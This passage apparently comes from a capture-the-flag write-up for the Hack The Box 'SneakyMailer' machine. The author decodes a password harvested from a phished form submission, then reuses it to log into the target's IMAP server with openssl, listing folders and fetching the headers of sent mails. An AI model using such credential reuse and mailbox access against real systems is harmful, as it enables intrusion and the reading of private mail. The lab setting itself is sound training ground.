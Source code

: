 ```
```

Thanks for the creds, Paul! Let's use https://meyerweb.com/eric/tools/dencoder/ to decode the password.

```
firstName=Paul
&lastName=Byrd
&email=paulbyrd%40sneakymailer.htb
&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
------
Name: Paul Byrd
Email: paulbyrd@sneakymailer.htb
Pass: ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
```

The ```paulbyrd:^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht``` credentials don't work for SSH or FTP. So let's try IMAP on port 993 [Access IMAP server from the command line using OpenSSL](https://tewarid.github.io/2011/05/10/access-imap-server-from-the-command-line-using-openssl.html).

```
$ openssl s_client -connect 10.10.10.197:993 -crlf
...
tag login paulbyrd ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
...
tag OK LOGIN Ok.
tag LIST "" "*"
* LIST (\Unmarked \HasChildren) "." "INBOX"
* LIST (\HasNoChildren) "." "INBOX.Trash"
* LIST (\HasNoChildren) "." "INBOX.Sent"
* LIST (\HasNoChildren) "." "INBOX.Deleted Items"
* LIST (\HasNoChildren) "." "INBOX.Sent Items"
tag OK LIST completed
```
Searching through, only "INBOX.Sent Items" has contents.
```
tag SELECT "INBOX.Sent Items"
* FLAGS (\Draft \Answered \Flagged \Deleted \Seen \Recent)
* OK [PERMANENTFLAGS (\* \Draft \Answered \Flagged \Deleted \Seen)] Limited
* 2 EXISTS
* 0 RECENT
* OK [UIDVALIDITY 589480766] Ok
* OK [MYRIGHTS "acdilrsw"] ACL
tag OK [READ-WRITE] Ok
```
Let's check the messages:
```
tag FETCH 1:2 (BODY[HEADER])
* 1 FETCH (BODY[HEADER] {279}
MIME-Version: 1.0
To: root <root@debian>
From: Paul Byrd <paulbyrd@sneakymailer.htb>
Subject: Password reset
Date: Fri, 15 May 2020 13:03:37 -0500
Importance: normal
X-Priority: 3
Content-Type: multipart/alternative;
	boundary="_21F4C0AC-AA5F-47F8-9F7F-7CB64B1169AD_"

)
* 2 FETCH (BODY[HEADER] {419}
To: low@debian
From: Paul Byrd <paulbyrd@sneakymailer.htb>
Subject: Module testing
Message-ID: <4d08007d-3f7e-95ee-858a-40c6e04581bb@sneakymailer.htb>
```